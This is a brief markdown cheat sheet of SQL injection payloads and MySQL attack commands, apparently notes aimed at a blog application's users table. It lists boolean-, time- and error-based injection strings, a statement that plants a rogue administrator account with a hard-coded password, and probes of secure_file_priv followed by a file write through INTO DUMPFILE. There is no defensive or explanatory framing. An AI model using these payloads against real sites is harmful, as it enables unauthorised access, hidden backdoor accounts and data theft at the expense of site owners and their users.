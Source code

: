 # CRUD Operations

1. Create rogue admin: `INSERT INTO users (username, password, is_admin) VALUES ('rogue_admin', MD5("RoguePass123"), TRUE);`

2. Delete rogue admin: `DELETE FROM users WHERE username = 'rogue_admin';`

# Filesystem operations

1. View the current user: `SELECT current_user;`
   
2. Check for the `secure_file_priv` setting: `SHOW VARIABLES LIKE 'secure_file_priv';`

3. Trying to create a file: `SELECT 'test123' INTO DUMPFILE '/var/lib/mysql-files/test.txt';`

# SQL Queries

1. Boolean-based: `' OR (SELECT SUBSTRING(username, 1, 1) FROM users WHERE username = 'blogpage_admin') = 'a' %23`

2. Time-based: `' OR IF(SUBSTRING((SELECT username FROM users WHERE username = 'blogpage_admin'), 1, 1) = 'b', SLEEP(1), 0) LIMIT 1 %23`

3. Error-based: `' union select null, null, null, null, null %23`
